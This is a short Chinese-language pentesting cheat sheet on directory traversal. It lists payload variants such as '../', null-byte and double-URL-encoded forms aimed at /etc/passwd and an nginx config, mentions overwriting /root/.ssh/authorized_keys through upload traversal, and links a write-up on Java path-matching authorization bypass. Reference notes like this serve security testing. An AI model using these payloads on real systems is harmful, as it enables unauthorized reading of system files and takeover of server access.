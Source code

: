 ## **目录穿越，各种触发格式**
```
../
/../
/static../
/admin/admin.php?file=..././..././..././..././/etc/nginx/sites-enabled/site.conf
/.%00.%2F
/..%5c..%5c

包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。


url编码绕过
.   =>  %2e
/   =>  %2f
% => %25  (双重URL编码)

..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252fetc/passwd  
```

^
## **目录穿越利用场景**
文件上传目录穿越，穿越覆盖ssh公钥/root/.ssh/authorized_keys。
文件下载目录穿越。




^
## **路匹配鉴权绕过**
![](.topwrite/assets/image_1742542529997.png)
<https://blog.chain0x0.com/article/java%E8%B7%AF%E5%8C%B9%E9%85%8D%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87>